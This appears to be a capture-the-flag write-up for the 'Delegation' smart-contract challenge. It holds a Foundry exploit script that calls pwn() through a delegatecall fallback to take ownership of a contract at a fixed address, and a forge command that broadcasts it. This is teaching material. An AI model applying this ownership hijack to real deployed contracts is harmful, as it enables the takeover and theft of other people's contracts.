 ### TEST OUTPUT
![Test Img](assets/delegation2.png)

## Exploit Script
`script/DelegationSolution.s.sol`
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { Delegation, Delegate } from "../src/Delegation.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract DelegationSolution is Script {
    Delegation public delegation = Delegation(0x4D354f2c6059Adf5ACCEDd00a58a94349dE13Ac8);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        (bool s, ) = address(delegation).call(abi.encodeWithSignature("pwn()"));
        require(s, "S not successful");

        vm.stopBroadcast();
    }
}
```

### How to run:
```bash
forge script script/DelegationSolution.s.sol --rpc-url $RPC_URL --broadcast --verify
```

### Challenge Completed